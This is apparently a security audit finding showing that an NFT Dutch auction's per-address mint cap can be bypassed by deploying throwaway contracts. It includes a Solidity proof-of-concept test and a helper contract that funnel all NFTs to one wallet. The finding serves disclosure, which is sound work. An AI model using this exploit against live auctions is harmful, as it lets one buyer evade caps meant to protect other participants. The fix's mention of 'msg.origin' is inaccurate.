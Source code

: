 immeas

medium

# `CAP_PER_ADDRESS` can easily be bypassed

## Summary
The `CAP_PER_ADDRESS` can be circumvented by using different contracts to buy the NFTs, thus having new `msg.sender` addresses.

## Vulnerability Detail
`MeritDutchAuction` has a limit on how many NFTs a single account can buy:

https://github.com/sherlock-audit/2023-07-beam-auction/blob/main/dutch-nft/src/MeritDutchAuction.sol#L132-L143
```solidity
File: MeritDutchAuction.sol

132:        // Cache mintedPerAddressBefore to save on sloads
133:        uint256 mintedPerAddressBefore = mintedPerAddress[msg.sender];
...
142:        // Cannot mint more than the cap per address
143:        require(mintedPerAddressBefore + amount <= CAP_PER_ADDRESS, "Mint cap per address reached");
```

This is can be circumvented by creating new contracts that buys the NFTs on behalf of the owner:

### PoC in `MeritDutchAuctionTest.t.sol`:
```solidity
    function testBuyAll() public {
        vm.warp(startTime);
        vm.startPrank(wallet1);
        for(uint256 i = 0 ; i< 2500 ; i++) {
            (new BuySomeNfts){value: 4e18}(auction,nft);
        }
        vm.stopPrank();

        // wallet1 owns all nfts
        assertEq(10_000,nft.balanceOf(wallet1));
    }
```
`BuySomeNfts`:
```solidity
contract BuySomeNfts is Ownable {

    constructor(MeritDutchAuction auction, MeritNFT nft) payable {
        uint256 before = auction.minted();
        auction.mint{value: 4e18}(4);
        
        for(uint256 i = before ; i < before + 4 ; i++) {
            nft.transferFrom(address(this), owner(), i+1);
        }
    }
}
```

## Impact
Any user can either create multiple accounts or use a different contracts to buy more than 4 nfts, thus bypassing the `CAP_PER_ADDRESS`

## Code Snippet
See above.

## Tool used
Manual Review

## Recommendation
Consider enforcing it on `msg.origin` that would at least force the calls to be in different txs giving other users a chance buy. Or simply skip the check all together.